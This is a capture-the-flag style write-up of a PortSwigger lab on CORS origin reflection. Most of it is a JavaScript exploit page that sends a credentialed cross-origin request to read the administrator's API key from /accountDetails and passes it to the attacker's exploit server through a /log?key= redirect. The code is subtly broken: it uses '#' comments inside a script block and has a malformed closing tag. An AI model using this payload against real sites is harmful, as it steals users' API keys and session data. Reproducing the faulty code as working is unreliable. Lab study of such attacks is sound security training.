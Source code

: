 
# CORS vulnerability with basic origin reflection

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

---------------------------------------------

References: 
- https://portswigger.net/web-security/cors
- https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/

---------------------------------------------

Generated link: https://0a0800cc04a1819b81eb34770017009e.web-security-academy.net/

We have the endpoint "/accountDetails":



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/1.png)


Original code:

```
<html>
  <body>
    <script>

    #Initialize the XMLHttpRequest object, and the application URL vairable 
        var req = new XMLHttpRequest();
        var url = ("APPLICATION URL");

    #MLHttpRequest object loads, exectutes reqListener() function
      req.onload = retrieveKeys;

    #Make GET request to the application accounDetails location
        req.open('GET', url + "/accountDetails",true);
    
    #Allow passing credentials with the requests
    req.withCredentials = true;

    #Send the request 
        req.send(null);

    function retrieveKeys() {
            location='/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```
